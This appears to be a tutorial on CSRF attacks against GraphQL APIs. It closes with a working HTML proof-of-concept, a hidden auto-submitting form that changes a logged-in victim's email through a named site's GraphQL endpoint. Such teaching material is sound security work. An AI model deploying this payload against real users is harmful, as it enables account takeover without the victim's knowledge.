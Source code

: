 - The fundamentals of CSRF.
- How GraphQL can be exploited using CSRF.
- A **CSRF PoC** to exploit a vulnerable GraphQL API.
- The most common cases of CSRF and how to prevent them.


# Understanding CSRF

CSRF occurs when an attacker forces an~={orange} authenticated user to send an unintended request to a web application. =~Since the request is **automatically authenticated via cookies**, the action is performed as if the user had initiated it themselves.

# Common Applications Vulnerable to CSRF

1. **Banking and Financial Apps** — Transferring funds, changing user settings.
2. **E-commerce Sites** — Modifying user information, adding/removing items from carts.
3. **Social Media Platforms** — Sending messages, changing profile information.
4. **Admin Panels & CMS** — Modifying users, changing security settings.
5. **GraphQL APIs** — Changing email, passwords, or other sensitive information.

# Exploiting GraphQL CSRF

Unlike traditional REST APIs, **GraphQL accepts complex queries in JSON format**, often requiring `Content-Type: application/json`. However, if the GraphQL endpoint does not implement CSRF protections such as **CSRF tokens** or **SameSite cookie policies**, attackers can still abuse authenticated users.

# The GraphQL CSRF Proof-of-Concept (PoC)

Below is an HTML **CSRF attack** that attempts to change the email address of an authenticated user.


```html
<!DOCTYPE html>  
<html>  
  
<body>  
    <form id="csrfForm" action="https://indeed.com/graphql/v1" method="POST">  
        <input type="hidden" name="query" value="  
        mutation changeEmail($input: ChangeEmailInput!) {  
          changeEmail(input: $input) {  
            email  
          }  
        }  
      ">  
        <input type="hidden" name="operationName" value="changeEmail">  
        <input type="hidden" name="variables" value='{"input":{"email":"hacker@hackerone.com"}}'>  
    </form>  
  
    <script>        document.getElementById("csrfForm").submit(); // Auto-submit when victim visits the page    </script>  
</body>  
  
</html>
```

